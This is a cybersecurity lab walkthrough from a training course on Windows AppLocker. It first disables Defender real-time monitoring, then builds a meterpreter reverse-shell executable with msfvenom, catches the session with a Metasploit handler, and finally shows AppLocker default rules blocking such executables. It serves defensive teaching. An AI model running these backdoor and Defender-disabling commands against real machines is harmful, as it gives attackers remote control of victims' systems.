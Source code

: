 <h3>AppLocker</h3>

---

_Disclaimer: The content, procedures, and materials presented in this lab are solely for educational purposes, and any information obtained is intended for the pursuit of education in cybersecurity. All procedures outlined in this lab were created and learned from the course [Getting Started in Security with BHIS and MITRE ATT&CK](https://www.antisyphontraining.com/event/getting-started-in-security-with-bhis-and-mitre-attck/2023-09-18/) taught by [John Strand](https://www.sans.org/profiles/john-strand/). It is emphasized that the knowledge gained here will not be used for any unauthorized or malicious activities._

---

**Tools/Technologies used:** Windows, Linux, Powershell, cmd, Applocker, Backdoor & Backdoor listener, and Metasploit

---

_[Windows AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/what-is-applocker) is a security feature in Windows that lets administrators control which applications and scripts can run on a computer or network by creating policies based on file attributes. It enhances security by allowing only authorized and trusted software to execute, reducing the risk of malware and unauthorized applications.<br>_


Let's examine the scenario when AppLocker isn't active. Our objective is to establish a basic backdoor that connects to the Ubuntu system. It's important to note that our goal is not to demonstrate evasion of EDR or Endpoint products but rather to create a straightforward backdoor connection.

First, let's disable Defender for this session. Execute the following command from an Administrator PowerShell prompt:

```Set-MpPreference -DisableRealtimeMonitoring $true```

If you encounter any red error messages, don't worry; this indicates that Defender is not currently running.

To simplify this process, we have a couple of scripts available. Ensure that both your Windows and Linux systems are running, and let's begin by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5c41c2da-866f-4ee4-9620-2b84a8acca23)
![1 5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/bf18a584-6def-4450-ad8e-4ea2fd9e92ac)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ef060e3f-f787-40dc-bcaa-608dabdb3894)

On your Linux system, please run the following command:

$`ifconfig`

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/730a3081-5acd-4a55-94f1-3adf4aaa7975)

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -` Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a26a1b6d-945d-414e-9647-095a22f62080)

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

![3 2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/27d921a5-657f-4946-b602-7ee897783d06)

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/c25b312a-6d42-4bf3-9094-e5d10d661944)

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`.\TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8a6d314b-9e7e-4ed1-91e1-42f899b551a8)

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a6918cd3-d8f7-4dde-9372-7f1b9190597e)

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

![7](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/2db93d97-4465-4eea-aacd-065ce487a71f)

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

![8](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3ca06428-fd48-40d8-ab73-cc3807c26f3c)

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

![9](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ee9627c6-62ff-4db1-b9fe-9f595446c39d)

This should generate a subset of rules for each group. It should look similar to how it does below:

![10](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4ed4648b-0533-4561-a69b-8ee050252334)

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

![11](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/009ace81-c4a7-4099-9d81-77ee996ed916)

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

![11 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/e6c7102a-2c60-409b-84fb-2cdc09cf5aa3)
![12](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8005f161-ff7e-47b4-82c0-b1c23b8d4e22)

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

![13](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/96cf5159-aa2f-467e-9137-42f8558afd63)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

![13 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3e5f5109-0f64-4af6-8bfb-4db5215a01c9)

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little white user icon:

![14](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/1a2599a6-b079-4226-87ea-7d322241d038)

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![15](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/fb6bdd70-08f6-4729-96a6-e5a5fb2e21dc)
You will see that most of the .exe files will generate an error.

You should get an error.








